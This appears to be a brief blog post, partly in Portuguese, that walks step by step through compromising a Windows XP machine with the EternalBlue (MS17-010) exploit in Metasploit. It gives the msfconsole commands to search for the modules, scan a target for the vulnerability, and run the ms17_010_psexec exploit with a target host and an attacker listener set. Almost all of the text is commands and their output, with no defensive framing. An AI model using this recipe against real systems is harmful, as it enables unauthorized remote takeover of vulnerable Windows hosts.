 ```yaml
---
title: Eternal Blue ( WinXP )
category: post
---
```


EternalBlue WindowsXP
-----------------------




### Enter msfconsole and search vuln

		msfconsole

		search eternalblue

OR

		search ms17-010

---

### Primeiramente Verificamos se a maquina de destino eh um Windows XP Vuln

	use auxiliary/scanner/smb/smb_ms17_010

	set RHOST 10.l0.1.4

	exploit

Se tudo der certo, obtemos uma resposta parecida com o seguinte:

		[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
		[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed

---

## Agora Vamos Explorar a maquina que identificamos que esta vulneravel


	back

	use exploit/windows/smb/ms17_010_psexec

	set RHOST 10.l0.1.4

	set LHOST 10.l0.1.2

	run
